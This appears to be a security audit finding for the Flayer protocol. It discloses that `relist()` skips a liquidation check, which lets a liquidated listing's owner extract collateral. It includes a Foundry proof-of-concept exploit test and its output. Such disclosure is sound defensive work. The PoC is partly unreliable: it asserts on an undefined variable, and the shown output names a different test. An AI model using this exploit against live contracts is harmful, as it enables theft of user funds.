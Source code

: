 Stable Chili Ferret

High

# The owner of LiquidationListing can steal funds from the protocol.

### Summary

The protocol loses funds due to insufficient checks on LiquidationListing in the `Listings.sol#relist()` function.


### Root Cause

The `_isLiquidation` check is not performed in the [`Listings.sol#relist()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625-L672) function.


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

- Alice's protectedListing is liquidated in the [`ProtectedListings.sol#liquidateProtectedListing()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L451-L462) function, creating a LiquidationListing in the Listing contract.
- Alice immediately relists her LiquidationListing using a different address.
- Even though Alice's LiquidationListing has no collateral, Alice receives a collateral corresponding to that LiquidationListing.


### Impact

The attacker waits for his ProtectedListing to be liquidated and steals funds from the protocol.

### PoC

```solidity
    function test_InvalidHandleOfLiquidationListing(address payable _owner, address payable _relister, uint _tokenId, uint16 _floorMultiple) public {
        _assumeValidTokenId(_tokenId);

        // Ensure that we don't set a zero address _owner
        _assumeValidAddress(_owner);
        _assumeValidAddress(_relister);
        vm.assume(_owner != _relister);

        // Ensure that our multiplier is above 1.00
        _assumeRealisticFloorMultiple(_floorMultiple);

        // Mint our token to the _owner and approve the {Listings} contract to use it
        erc721a.mint(_owner, _tokenId);
        ICollectionToken token = locker.collectionToken(address(erc721a));
        deal(address(token), address(listings), 100 ether);
        assertEq(token.balanceOf(address(listings)), 100 ether);

        vm.startPrank(_owner);
        erc721a.approve(address(protectedListings), _tokenId);

        IProtectedListings.ProtectedListing memory listing = IProtectedListings.ProtectedListing({
            owner: _owner,
            tokenTaken: 0.4 ether,
            checkpoint: 0
        });

        // Create our listing
        vm.startPrank(_owner);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: listing
            })
        });
        vm.stopPrank();

        vm.warp(block.timestamp + LIQUIDATION_TIME);

        address keeper = address(1);
        vm.prank(keeper);
        protectedListings.liquidateProtectedListing(address(erc721a), _tokenId);

        // Confirm that the keeper receives their token at the point of liquidation
        assertEq(token.balanceOf(keeper), protectedListings.KEEPER_REWARD() * 10 ** token.denomination());

        deal(address(token), _relister, 100 ether);
        vm.startPrank(_relister);
        token.approve(address(listings), type(uint).max);
        listings.relist({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IListings.Listing({
                    owner: _relister,
                    created: uint40(block.timestamp),
                    duration: listings.MIN_LIQUID_DURATION(),
                    floorMultiple: _floorMultiple
                })
            }),
            _payTaxWithEscrow: false
        });

        vm.stopPrank();

        vm.startPrank(_owner);
        listings.withdraw(address(token), listings.balances(_owner, address(token)));
        uint256 remainingCollateral = token.balanceOf(address(listings)) - listings.getListingTaxRequired(listings.listings(address(erc721a), _tokenId), address(erc721a));
        assertEq(remaining, 100 ether);
        vm.stopPrank();
    }
```

Result:
```solidity
Ran 1 test suite in 15.91ms (14.52ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/Listings.t.sol:ListingsTest
[FAIL. Reason: assertion failed: 99948571428571428572 != 100000000000000000000; counterexample: calldata=0x73c9da8b0000000000000000000000007b71078b91e0cdf997ea0019ceaaec1e461a64ca0000000000000000000000000a255597a7458c26b0d008204a1336eb2fd6aa090000000000000000000000000000000000000000000000000005c3b7d197caff000000000000000000000000000000000000000000000000000000000000006d args=[0x7b71078b91E0CdF997EA0019cEaAeC1E461A64cA, 0x0A255597a7458C26B0D008204A1336EB2fD6AA09, 1622569146370815 [1.622e15], 109]] test_NotCheckLiquidationableRelist(address,address,uint256,uint16) (runs: 0, μ: 0, ~: 0)        

Encountered a total of 1 failing tests, 0 tests succeeded
```


### Mitigation

Pls add corresponding check to `relist()`